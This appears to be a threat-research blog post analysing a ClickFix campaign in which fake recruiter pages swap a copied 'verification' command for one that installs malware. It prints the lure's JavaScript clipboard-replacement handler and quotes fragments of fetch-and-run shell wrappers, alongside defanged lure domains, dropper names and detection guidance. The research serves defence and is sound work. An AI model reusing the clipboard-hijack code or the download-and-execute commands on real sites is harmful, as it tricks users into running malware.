

The recruitment site asks the candidate to copy a verification command, run it in a terminal, and paste back the result. The page promises a `VERIFY-` code. But when the candidate presses copy, the page replaces the selected text with a command that also attempts to install a payload.

That is the ClickFix technique: a web page persuades someone to paste and run a command, shifting execution from the browser to the user's terminal. Three phishing messages received in June and July 2026 led me to several delivery branches, collection payloads, a GitLab configuration resolver and exposed administration software, and in the browser branch, the verification step conceals the install attempt.

[Proofpoint tracks the cluster as UNK_DeadDrop](https://www.proofpoint.com/us/blog/threat-insight/dont-fear-repo-unkdeaddrop-phishing-campaign-targets-developers-steal). Its reporting, together with [Denys Vitali's earlier investigation](https://blog.denv.it/posts/i-was-likely-targeted-by-dprk-in-a-sophisticated-developer-malware-campaign/), provides context for the editor-based branch in the next post, while Unit 42's [research on fake-recruiter campaigns delivering BeaverTail and InvisibleFerret](https://unit42.paloaltonetworks.com/north-korean-threat-actors-lure-tech-job-seekers-as-fake-recruiters/) describes the wider pattern of job-themed lures aimed at developers. The W3C [Clipboard API specification](https://www.w3.org/TR/clipboard-apis/) defines the copy event that allows a page to replace selected text.

## The command shown to candidates

The recovered lures use recruitment and technical-assessment themes. Their verification flow asks the candidate to copy a command, enter or use an access phrase, and return the terminal's output, and the command does print the promised verification result while also attempting to install a payload. That makes the exchange more convincing than a page that asks someone to run an unexplained command: the page and terminal appear to agree. The candidate gets the expected output to submit.

The captured pages fall into two frontend groups. Lighter bundles show an access-key or anti-spam panel, while larger ones load TensorFlow.js face-detection models and activate the camera for a more elaborate device-check presentation, and Three.js appears only in a separate design-challenge lure. Across these interfaces, the clipboard substitution is the behavior that changes the command.

The retained lure material includes builds associated with `joincategory[.]xyz` and `d2saitrade[.]ink`, plus heavier captures from `dscufo[.]xyz` and `nemesistrade[.]work`, and later URLScan response-body recovery found the same kit on `discufo[.]xyz`, `trixauvex[.]org`, `nodit[.]org`, `surgecareer[.]ink`, `calendly[.]foxtopia[.]xyz` and `calendly[.]optixauvex[.]us`.

I added these captures to the known lure set. Visitor activity remains unknown. The [historical indicator reference](../../indicators/) lists their URLs and evidence class. The [artifact reference](../../artifacts/) records the response hashes.

The same clipboard kit appeared under later covers. July captures preserve an Almanac-themed page at `validator.aavzx[.]ink` and a 3D box-preview lure at `3dscenebox[.]online`; the latter's `check_3d_m` and `check_3d_w` files matched the `upd_m` and `upd_w` droppers from the `api.aazdias[.]ink` store by SHA-256. The captures date the pages and identify their droppers. No visitor execution records accompanied them.



*Figure 1. The copied command combines the verification output with an installation attempt.*

### Copying changes the terminal command

The copy handler served by `d2saitrade[.]ink` replaces the clipboard contents in a few lines. Only line breaks have been added to this excerpt:

```javascript
c.addEventListener(`copy`, e => {
  if (!(window.getSelection()?.toString() ?? ``).trim()) return;
  let t = e.target;
  !(t instanceof Node) || !c.contains(t) || (
    e.preventDefault(),
    e.clipboardData?.setData(`text/plain`, R(b.nonce, b.phrase, y)),
    x(`cmdline_copied`, { os: y, step: `verify` })
  );
});
```

`preventDefault()` stops the browser's normal copy operation. `setData()` places the result of `R()` on the clipboard: a command built for the detected operating system (`y`) and verification nonce, and the handler then reports a `cmdline_copied` event to the site.

Although `R()` receives the phrase entered by the candidate, that value does not appear in the command text in this bundle, and the handler also runs only when text inside the command box is selected. I followed `R()` into the installation logic. A clipboard API alone is a weak signal because legitimate applications use one too; the evidence of deception is the mismatch between the displayed verification text and the generated command.

The generated command differs by platform. On macOS and Linux, it starts a background download-and-execution sequence, then prints a `VERIFY-` result, while on Windows, the hidden installation logic is prepended to the prompt sequence, so the candidate sees an access-key prompt before the result. The recorded Windows branch explicitly enables the hidden installer. On Unix-like systems, backgrounding lets the visible verification wrapper finish while installation proceeds separately. Both wrappers are documented in the [clipboard-lure analysis](../../evidence/E02.pdf).

The verification output makes the copied command look successful even if the installation attempt fails. Checking for the expected prefix misses that second behavior. The nonce and phrase may distinguish verification exchanges. The backend's acceptance logic was unavailable.

## The installer uses the lure site's origin

The URL builder takes its first-stage download location from `window.location.origin`. Whichever site serves the lure also supplies the download origin. The recorded names include:

```text
verify_m          Unix-like verification dropper
verify_w          Windows verification dropper
check_bot_m/w     Anti-bot variants
check_3d_m/w      Design-challenge variants
```

This design makes the frontend portable across lure domains: changing the page's origin also changes the first-stage retrieval location, without a hostname literal in the bundle, and searching only for known C2 domains will miss that URL. Later collection code obtains its destination through a separate mechanism, including the GitLab resolver examined in Part 6, so the lure host and collection destination belong at different points in the chain.

The bundle references `/device-check`, `/verify`, `/complete` and `/track-activity`, plus challenge-specific routes, and the `cmdline_copied` event shows that the client is designed to report when someone copies the command. The telemetry records a copy action before any terminal execution. Neither that event nor the verification output confirms installation. No backend infection log was recovered.

## Signals in the page's JavaScript

The useful browser-side signal is the combination of a verification interface, a copy handler and an argument that leads to installation logic, while the word “verify,” a clipboard API or a download helper alone is weak evidence.

Endpoint hunting should follow the command's actual destination. Here the candidate pastes into a terminal, so a rule requiring an editor-to-shell process chain would miss the intended behavior. Follow the copied command, its child processes, downloaded scripts, persistence and outbound connections, and for static triage, compare the displayed text with the value passed to the clipboard, then trace the download URL back through the command builder. That exposes the substitution without executing the bundle.

Because the first-stage download comes from the lure page's own origin, one concrete hunt follows directly from the code: look for a shell or PowerShell download shortly after a terminal paste, from a host the browser had just been visiting.

The [technical paper](../../downloads/UNK_DeadDrop-Preprint.pdf) also records that some copied strings end in a trailing newline. Depending on terminal behavior, the command may run as soon as it is pasted. This was not tested across terminals.

On the static side, a later scan of a held lure bundle found two clipboard-write sites in a sample of 73,545 bytes, with the following SHA-256:

```text
5ee915bb8d0363bd92176cc595d7425fd7e7830508d8824d90b5285a3d2b11bd
```

The copied value in this bundle is generated when someone clicks, and the builder receives the visitor's operating system along with a nonce and phrase, so a scanner that reads only literal string arguments sees a clipboard call with an unresolved value.

Version 0.2.0 of the companion scanner follows that value through the command builder, platform helpers and process-detaching wrapper. It extracts their text without evaluating the code. In this bundle, the `clickfix-clipboard-command` rule reports an error and identifies the `perl -MPOSIX` double-fork wrapper, the verification wording and the copy handler that replaces the selected text.

The same rule follows the later Scene Box lure's generic `copyText(text)` helper to the `curl -ks … && nohup bash` command supplied by its callers. All three retained lure generations reach error level.

Across 3,000 popular npm packages and Open VSX extensions, the rule raised no errors and one warning for an installer's "copy command" button. To verify the visual deception, compare the rendered instruction with the command placed on the clipboard in a browser.

The [repository branch](../02-vsix-editor-execution/) uses a different entry point: a package calling itself Google Update Support installs collection components through the code editor.

